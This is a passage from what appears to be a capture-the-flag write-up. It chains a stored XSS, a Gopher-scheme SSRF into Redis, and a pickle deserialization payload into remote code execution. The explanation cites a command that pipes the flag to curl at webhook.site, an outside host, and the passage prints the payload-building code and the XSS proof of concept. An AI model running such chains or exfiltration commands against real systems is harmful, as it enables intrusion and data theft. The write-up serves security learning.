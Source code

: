 ```python

gopher_payload = "gopher://127.0.0.1:6379/_%s" % redis_cmd.replace('\r', '').replace('\n', '%0D%0A').replace(' ', '%20')

print(gopher_payload)
#gopher://127.0.0.1:6379/_hset%20jobs%<ENCODED_COMMANDS>%3D%3D%0Aquit%0A
```

Let’s step through my Gopher payload generator. 

1. The code defines a class **`RCE`** that implements the **`__reduce__()`** method. This method specifies the actions that perform during pickle deserialization. In this case, the command executed is**`/readflag | base64 -w 0 > /tmp/flag; curl https://webhook.site/<YOUR_GUID>?flag="$(cat /tmp/flag)"`**. Modify **`<YOUR_GUID>`** with your actual webhook site GUID.
2. The **`pickle.dumps(RCE())`** statement serializes the **`RCE`** object into a pickle byte string.
3. The pickled payload is then base64 encoded using **`base64.b64encode()`** and converted to an ASCII string using **`decode('ascii')`**. The encoded payload is storing itself in the **`payload_b64`** variable.
4. The **`redis_cmd`** variable holds the Redis command that executes. In this case, an `hset` command sets the payload in the **`jobs`** hash with the key **`2813308004`**. This key is arbitrary and can be set to any digit. 
5. The **`gopher_payload`** variable contains the Gopher payload constructed using the Redis command. It replaces newline characters (**`\n`**) and carriage return characters (**`\r`**) with their URL-encoded equivalents (**`%0D%0A`**) and spaces with **`%20`**. The payload is prefixed with the Gopher URL scheme (**`gopher://`**) and the Redis server details (**`127.0.0.1:6379`**).
6. Finally, the constructed Gopher command prints to the console for use in the stored XSS proof of concept.

With our newly created Gopher URL, which interacts with the loopback address for Redis, we should be ready to poison the Redis Cache with our stored XSS: 

```python
<script>
  var job_title = "title";
  var urls = "gopher://127.0.0.1:6379/_hset%2813308004jobs%2<REST_OF_THE_OUTPUT>";
  urls = urls.split('\n');

  fetch('/api/admin/scrape/create', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ job_title, urls }),
    });
</script>
```
*Proof of concept for the stored XSS.*
